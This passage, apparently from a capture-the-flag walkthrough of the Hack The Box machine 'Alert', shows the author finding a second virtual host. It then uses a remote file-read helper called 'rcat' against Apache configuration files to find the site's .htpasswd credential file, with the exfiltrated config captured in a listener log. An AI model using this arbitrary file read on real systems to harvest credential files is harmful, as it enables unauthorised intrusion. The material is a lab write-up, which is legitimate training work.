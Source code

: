 ```
</pre>]
```

It seems that there might be additional virtual host (`statistics.alert.htb`) running on the target. Let's investigate it by first adding it to `/etc/hosts` on our attacking machine and then simply browse it (`http://statistics.alert.htb`).
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ echo "$TARGET_IP statistics.alert.htb" | sudo tee -a /etc/hosts
10.129.231.188 statistics.alert.htb
```

After entering this web page we immediately got basic authentication form. As we have access to local files with permission of web server user (most probably `www-data`) we could try to locate `.htpasswd` file for this site. Previous enumeration showed that Apache HTTP server is used, so we will try our luck with some default configuration files locations.

```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ rcat /etc/apache2/apache2.conf 
```

It seems that (default) server configuration is not accessible. Let's try default file location for enabled sites.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ rcat /etc/apache2/sites-enabled/000-default.conf
```
```
[2025-03-22 06:53:12] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
```